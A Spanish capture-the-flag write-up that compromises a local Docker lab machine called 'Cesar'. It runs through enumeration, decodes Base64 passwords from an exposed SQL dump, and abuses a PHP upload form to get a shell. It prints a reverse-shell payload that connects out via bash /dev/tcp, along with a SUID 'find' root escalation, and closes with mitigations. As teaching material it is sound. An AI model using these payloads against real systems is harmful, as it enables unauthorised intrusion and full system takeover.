<h1 align="center">[Writeup] Cesar - Reporte de Vulnerabilidad</h1>

**Dificultad:** Difícil (★★★★★☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales  / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 26-06-2026

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de Web Exploit (Nivel Hard). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: CESAR, requiriendo obtener acceso inicial y comprometer el sistema."

---

---

## 1. Introducción

- **Cesar** es un laboratorio orientado al reconocimiento y la correlación de información. A diferencia de otros escenarios donde la explotación depende de una vulnerabilidad específica, aquí el progreso se basa en una enumeración metódica y en la capacidad de interpretar las pistas que van apareciendo durante el proceso. El laboratorio combina conceptos básicos de codificación, análisis de información expuesta, autenticación web, carga insegura de archivos y escalada de privilegios mediante binarios SUID, simulando un flujo de compromiso completo sobre un sistema Linux.

# Objetivo

- Realizar un proceso completo de reconocimiento, enumeración, explotación y escalada de privilegios hasta obtener acceso como **root**, aprovechando la información expuesta por los distintos servicios del sistema.
### Alcance

- Este laboratorio fue ejecutado exclusivamente en un entorno local mediante Docker, con fines educativos y de práctica de técnicas de pentesting sobre un sistema deliberadamente vulnerable.
---
## 2. Reconocimiento

### 2.1 Descubrimiento del objetivo

Comando Utilizado:
```
docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cesar_lab

Resultado:
172.17.0.2
```

### 2.2 Escaneo de puertos

- Lanzamiento de un escaneo general y luego uno dirigido con scripts de reconocimiento (`-sC`) y versiones (`-sV`), ademas de agregar todos los puertos (`-p-`), envio de paquetes por segundo (`--min-rate 5000`) para mayor velocidad de escaneo y guardando los resultados del escaneo (`-oN scan_cesar.txt`)

Comando utilizado:
```
nmap -sV -sC -p- --min-rate 5000 172.17.0.2 -oN scan_cesar.txt
``` 



- # Servicios encontrados:
- **vsftpd 3.0.5**, funcionando en el puerto **21** como un servicio ftp (posible objetivo)
- **OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)**, funcionando en el puerto **22** como un servicio ssh (objetivo primario)
- **Apache httpd 2.4.52 ((Ubuntu))**, Servicio web corriendo en el puerto **80**, dada su descripcion no parece ser un objetivo prioritario.
- **Apache httpd 2.4.52 ((Ubuntu))**, corriendo en el puerto **445**, normalmente es un puerto de red utilizado principalmente por el protocolo **SMB** (Server Message Block) en sistemas Windows. pero dado su nombre y descripción parece ser un puerto http (posiblemente explotable).
- **postgresql PostgreSQL DB 14.20 - 14.21**, motor de base de datos, funcionando en el puerto **5432**, posible objetivo en caso de encontrar credenciales.
- **Apache httpd 2.4.52 ((Ubuntu))**, corriendo en el puerto **8080**, dada su descripción, parece ser mas "jugoso", que su versión del puerto 80.

---
## 3. Enumeración

### 3.1 Puerto 80

**Gobuster:** Es una herramienta de descubrimiento de directorios ocultos dentro de una web, se utiliza antes o después de una investigación visual en la página web, en este caso ni gobuster ni la inspección manual en la web dieron resultados concretos:
Comando Utilizado:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,js,json,db,bak,old
```

Resultados:


Resultados página web (página web Apache genérica):

### 3.2 Puerto 8080

- Enumeración con Gobuster
  Comando Utilizado:
```
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,js,json,db,bak,old  
```

Resultados:


- Archivos encontrados.
/admin/
```
Se econtro un archivo llamado id_rsa, posible forma de ingresar por ssh, que al final resulto contener la siguiente cadena:

Ydprv sru exhq fdplqr shur vljxh hqxphudqgr!!

La cual descifrada en codidgo Cesar decia:

4--> VAMOS POR BUEN CAMINO PERO SIGUE ENUMERANDO!!
```

/passwd/
```
Contenia la siguiente cadena:
shqvdedv txh hvwded idflo?

descifrada decia:
4--> PENSABAS QUE ESTABA FACIL?

```

/shadow/
```
Contenia la siguiente cadena:
shqvdedv txh hvwded idflo? flhuwr txh qr??

descifrada decia:
PENSABAS QUE ESTABA FACIL? CIERTO QUE NO??
```

 - Por lo tanto, este camino no contenía más pistas, ni en las rutas descubiertas ni en el código fuente de index.html

### 3.3 Puerto 445

En este puerto, obtuvimos mejores resultados e indicios de lo que podría ser una intrusión, dado que se descubrió una web principal, mas un panel Login, pero sin pistas ni en el código fuente ni en la web, se procedió al escaneo, regalandonos varias rutas "extra" para investigar:

Comando Utilizado:
```
gobuster dir -u http://172.17.0.2:445/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,js,json,db,bak,old  
```

Resultado:

De todas estas rutas expuestas por Gobuster, se procedió a la exploración manual, solo una contenía una pista ó archivo (/database), llamado "*query.sql*".


# **TIP** 
Puedes automatizar la búsqueda de archivos mediante un for, no es muy recomendado, pero sirve en caso de haber demasiadas páginas. 
Comando Utilizado:
```
for r in administration/ assets/ backup/ config/ database/ docs/ downloads/ logs/ reports/ uploads/; do echo "=== /$r ==="; gobuster dir -u http://172.17.0.2:445/$r -w /usr/share/seclists/Discovery/Web-Content/common.txt -x html,php,txt,rar,zip,gz,tar,sql,bak,old,sh -q; done

```

---
## 4. Análisis del dump SQL

El archivo "query.sql" contenía lo siguiente:
```
-- OWASP Management System Database
-- Tabla de usuarios

CREATE TABLE users (
    id INT PRIMARY KEY AUTO_INCREMENT,
    firstname VARCHAR(100),
    lastname VARCHAR(100),
    username VARCHAR(50) UNIQUE,
    password VARCHAR(255)
);

INSERT INTO users (firstname, lastname, username, password) VALUES
('Linus', 'Torvalds', 'linus_tux', 'TCFudVgjMjAyNSpzZWN1cmU='),
('Richard', 'Stallman', 'rms_free', 'Fr33d0m!Code_99'),
('Tim', 'Berners-Lee', 'tim_www', 'Web$Inventor_88!'),
('Steve', 'Wozniak', 'woz_apple', 'Appl3#W0z_77'),
('Ada', 'Lovelace', 'ada_algo', 'Alg0rithm!1843#'),
('Grace', 'Hopper', 'hopper_code', 'C0b0l#Pioneer_65'),
('Elon', 'Musk', 'elon_x', 'U3BAY2VYIzIwMjUh'),
('Satya', 'Nadella', 'satya_ms', 'M!cro$0ft#Lead_2025'),
('Sundar', 'Pichai', 'sundar_g', 'G00gle#Vision_2025'),
('Mark', 'Zuckerberg', 'zuck_meta', 'M3ta#Connect_2025!'); 
```
Lo que parecen ser usuarios/contraseñas viables para el login (http://172.17.0.2:445/login.php) de la pagina web. así se procedió a intentar iniciar sesión con estos datos, dando negativo en cada uno de ellos. Observando mejor cada contraseña, solo dos resaltan por tener un formato diferente, mientras que unas suelen ser palabras combinadas con números, letras y signos, TCFudVgjMjAyNSpzZWN1cmU= y  U3BAY2VYIzIwMjUh, parecen más un cifrado que una palabra combinada, tomando estos datos se procedió a revisar sí efectivamente estaban cifradas.


Y efectivamente lo estaban, por tanto se obtuvo usuario y contraseña diferente a las expuestas:

```
linus_tux:L!nuX#2025*secure
elon_x:Sp@ceX#2025!
```

---
## 5. Explotación

### 5.1 Acceso al panel

Credenciales que sirvieron para el ingreso mediante /login.php:


    
### 5.2 Vulnerabilidad de subida de archivos

Tras acceder al panel de administración, se identificó una funcionalidad destinada a la carga de archivos. Durante las pruebas se observó que el sistema no implementaba mecanismos de validación sobre el tipo o contenido de los ficheros subidos, permitiendo almacenar archivos con extensión **.php** dentro del directorio público **/uploads**.

Esta situación representa una vulnerabilidad de **Subida Insegura de Archivos (Unrestricted File Upload)**, ya que un atacante puede cargar código ejecutable en el servidor y acceder posteriormente a él mediante el navegador. Al ejecutarse el archivo desde el servidor web, fue posible obtener ejecución remota de comandos (RCE), constituyendo el punto de entrada al sistema.
### 5.3 Obtención de una Reverse Shell

Con esto expuesto, lo siguiente fue solamente preparar el archivo .php, para ello utilice las siguientes lineas de comando:

```
GIF89a
<?php system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"); ?>
```

Lo siguiente fue guardarlo en un archivo .php con cualquier nombre, en este caso utilice uno bastante llamativo y nada sútil," shell.php", lo siguiente fue subirlo al servidor y revisar la ruta que la misma web te indica (Archivos subidos se guardan en: `/uploads/`)




Antes de ejecutar o clickar el archivo, es necesario poner la terminal a la escucha en el puerto configurado en el archivo con:

```
nc -lvnp 4444
```


Y obtenemos nuestra shell reverse.

---
## 6. Post-Explotación

Una vez dentro, y sabiendo que solo somos el usuario "www-data", enumeramos cualquier posible archivo que pueda contener alguna pista de la bandera o escalada de privilegios, dado que ni directorios había en /home, se decidió por enumerar binarios en caso de encontrar SUID

Comando Utilizado:
```
find / -perm -4000 -type f 2>/dev/null
```
Resultados:


---
## 7. Escalada de privilegios

Se identificaron varios posibles ficheros SUID no convencionales o propios de un sistema seguo (bash, find, vim, etc), asi que solo era cuestion de elegir cual utilizar para convertirse en root.
Elegí el fichero find, asi que para explotarlo de una manera eficiente y sin fallas, me dirigi a GTFOBins.org (Página fiable para encontrar ficheros SUID y su forma de ejecución), la cual me recomendaba utilizar:

```
find . -exec /bin/sh -p \; -quit
```

---
## 8. Obtención de la flag

Dado que no se obtuvieron resultados en las diferentes rutas del sistema exploradas, se eligió ir directamente a listar la carpeta /root, logrando encontrar la bandera o flag de este laboratorio:




Dando por concluido el laboratorio.

---
---
---
## 9. Lecciones aprendidas

- No asumir que el servicio más llamativo es el vector de entrada.
- Importancia de la enumeración exhaustiva.
- Diferencia entre codificación y cifrado.
- Riesgos de una subida de archivos sin validación.
- Importancia de revisar binarios SUID.

---
## 10. Mitigaciones

Durante el desarrollo del laboratorio se identificaron varias debilidades que permitieron comprometer completamente el sistema. A continuación se presentan las principales medidas que habrían evitado o dificultado la explotación:

- **Proteger la información sensible:** Evitar exponer archivos que contengan credenciales, copias de seguridad o volcados de bases de datos dentro de directorios accesibles desde la web.

- **No almacenar contraseñas en texto plano ni codificadas en Base64:** Las contraseñas deben almacenarse utilizando algoritmos de hash seguros como **bcrypt**, **Argon2** o **scrypt**, junto con un _salt_ único para cada usuario.

- **Restringir la carga de archivos:** Validar la extensión, el tipo MIME y el contenido de los archivos subidos. Además, los archivos deberían almacenarse fuera del directorio público del servidor web o impedir la ejecución de código en el directorio de cargas.

- **Aplicar el principio de mínimo privilegio:** Evitar que binarios innecesarios mantengan el bit SUID activado. Revisar periódicamente estos permisos y eliminar aquellos que no sean estrictamente necesarios.

- **Reducir la superficie de ataque:** Limitar el acceso a servicios como PostgreSQL mediante reglas de firewall o configuraciones que permitan conexiones únicamente desde los equipos autorizados.

- **Realizar auditorías periódicas:** Revisar configuraciones, permisos y archivos expuestos para detectar información sensible o configuraciones inseguras antes de que puedan ser aprovechadas por un atacante.
